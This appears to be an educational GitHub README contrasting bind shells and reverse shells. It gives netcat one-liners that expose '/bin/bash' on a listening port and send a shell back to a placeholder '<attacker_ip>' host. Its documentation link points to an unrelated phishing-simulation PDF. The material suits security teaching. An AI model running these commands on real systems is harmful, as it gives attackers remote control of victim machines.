 #  Reverse Shell vs Bind Shell

##  What is a Shell?
A *shell* is basically a command-line interface that lets you run commands on a system.  
Attackers use **bind shells** and **reverse shells** to gain remote access after exploiting a vulnerability.

---

##  Bind Shell
- The **victim machine opens a port** and listens for incoming connections.  
- The **attacker connects** to this port and gets a shell.  

### Example (Netcat - Bind Shell):
On Victim:
```bash
nc -lvnp 4444 -e /bin/bash
```
On Attacker:
```bash
nc <victim_ip> 4444
```
### Limitations: Firewalls usually block incoming connections, so bind shells are less practical.

## Reverse Shell

The victim connects back to the attacker's machine.

The attacker sets up a listener and waits for the connection.

Once connected, the attacker gets a shell.

Example (Netcat - Reverse Shell):

On Attacker:
```bash
nc -lvnp 4444
```

On Victim (after exploit):
```bash
nc <attacker_ip> 4444 -e /bin/bash
```

## Additional Documentation

For a more detailed walkthrough, [view the full PDF guide](https://github.com/khajaazhar/phishing-simulation-gophish/raw/main/Gophish_Simulation_Documentation.pdf).

---
## Disclaimer

This project was built for educational and authorized testing purposes only.

---

## Author

**Khaja Azhar Uddin**  
**Date:** Aug 2025

